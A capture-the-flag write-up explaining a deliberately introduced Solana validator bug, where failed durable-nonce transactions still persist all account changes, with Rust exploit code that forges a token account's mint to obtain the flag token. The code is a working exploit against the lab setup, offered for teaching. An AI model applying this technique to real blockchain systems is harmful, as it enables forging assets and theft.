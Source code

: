 # Bugchain

This challenge seems very daunting at first, but is actually very solvable with some basic knowledge of how
Solana and its security guarantees work.

## The bug
The patch removes some checks from the `collect_accounts_to_store` function. With some context clues and some 
`printf`-debugging, it is possible to figure out that this function takes the results of the execution of a transaction, 
and then returns a list of all changed accounts and their new contents. It only receives the accounts from transactions
where the changed state should actually be persisted, i.e. non-failed transactions. But there is one exception, as can
be inferred from the removed checks:

[Durable transaction nonces](https://docs.solana.com/implemented-proposals/durable-tx-nonces) are a mechanism that allows
one to sign a transaction in advance. To prevent store-and-replay attacks, transactions have to include a recent blockhash 
(about 2 minutes old at most) when they are signed). This mechanism allows a signer to store a one-time blockhash in a
Nonce account, sign the transaction with that blockhash, and then send that transaction at any point in the future.

To prevent replay attacks however, the nonce has to be advanced every time it is used (even if the transaction fails, as
failing transactions still have fee-costs). This means the data inside of the account changes, even though the transaction
failed. Looking at the removed checks with this in mind, it becomes clear that they were supposed make sure that only the
changes in the nonce account (and the fee payer, as that account still has to pay for the failed transaction) get persisted.
Without those checks, every account changed in that failed transaction gets persisted.

## The primitive
We now have an insanely powerful primitive: by using the Durable Nonce mechanism, we can send transactions that are failing,
but are still persisted to the chain.

This can be used for a bunch of different attacks. But especially powerful is that the security guarantees of Solana are also
enforced with this mechanism (i.e. only the program owning the account can change the account). There are multiple different
ways of using this to mint yourself a flag token. For example one could deploy a program that changes the mint authority on
the flag mint. The transaction fails, but the mint authority still failed and you can now mint yourself a brand new flag.
Alternatively, the way my solve script does it is create a new mint for a definitely-not-a-flag token, mint yourself some 
tokens, and then change the mint on that token account to the actual flag-token mint.

## The solve script
First, we need a very simple program that changes the mint of any token account to the flag-mint:

```rust
use std::str::FromStr;

use solana_program::entrypoint;
use solana_program::program_pack::Pack;
use solana_program::{account_info::AccountInfo, entrypoint::ProgramResult, pubkey::Pubkey};

entrypoint!(process_instruction);

pub fn process_instruction(
    _program_id: &Pubkey,
    accounts: &[AccountInfo],
    _instruction_data: &[u8],
) -> ProgramResult {
    let acc = &accounts[0];
    let mut token_account =
        spl_token::state::Account::unpack_unchecked(*acc.data.borrow()).unwrap();
    token_account.mint = Pubkey::from_str("F1agMint11111111111111111111111111111111111").unwrap();
    Pack::pack(token_account, &mut acc.data.borrow_mut()).unwrap();
    Ok(())
}
```

The exploit itself is a breeze, using the poc-framework:

```rust
let payer = read_keypair_file("rich-boi.json").unwrap();
let mint = keypair(1);
let fake_account = keypair(2);
let nonce_account = keypair(3);

let client = localhost_client();

let mut env = RemoteEnvironment::new(localhost_client(), clone_keypair(&payer));

let program = env.deploy_program("program/target/deploy/exploit.so");

if env.get_account(nonce_account.pubkey()).is_none() {
    // create nonce account if it doesn't exist
    env.execute_as_transaction(
        &system_instruction::create_nonce_account(
            &payer.pubkey(),
            &nonce_account.pubkey(),
            &payer.pubkey(),
            env.get_rent_excemption(nonce::State::size()),
        ),
        &[&nonce_account],
    );
} else {
    // advance nonce
    env.execute_as_transaction(
        &[system_instruction::advance_nonce_account(
            &nonce_account.pubkey(),
            &payer.pubkey(),
        )],
        &[],
    );
}
let nonce_state =
    nonce_utils::data_from_account(&env.get_account(nonce_account.pubkey()).unwrap()).unwrap();

// wait three minutes so that the original blockhash is invalid
const N: usize = 18;
for i in 0..N {
    println!("waiting {} of {}", i + 1, N);
    std::thread::sleep(Duration::from_secs(10));
}

// mint tokens to fake account
env.create_token_mint(&mint, payer.pubkey(), None, 0);
env.create_token_account(&fake_account, mint.pubkey());
env.mint_tokens(mint.pubkey(), &payer, fake_account.pubkey(), 1337);

// this transaction will fail, but the changes are still written to disk
let instructions = vec![
    system_instruction::advance_nonce_account(&nonce_account.pubkey(), &payer.pubkey()),
    Instruction {
        program_id: program,
        accounts: vec![AccountMeta::new(fake_account.pubkey(), false)],
        data: vec![],
    },
];
client
    .send_and_confirm_transaction_with_spinner_and_config(
        &Transaction::new_signed_with_payer(
            &instructions,
            Some(&payer.pubkey()),
            &[&payer],
            nonce_state.blockhash,
        ),
        CommitmentConfig::confirmed(),
        RpcSendTransactionConfig {
            skip_preflight: true,
            preflight_commitment: None,
            encoding: None,
        },
    )
    .expect_err("tx did not fail");

// get the flag
env.execute_as_transaction(
    &[Instruction {
        program_id: Pubkey::from_str("F1ag111111111111111111111111111111111111111").unwrap(),
        accounts: vec![
            AccountMeta::new(fake_account.pubkey(), false),
            AccountMeta::new(fake_account.pubkey(), true),
        ],
        data: vec![],
    }],
    &[&fake_account],
)
.print();
```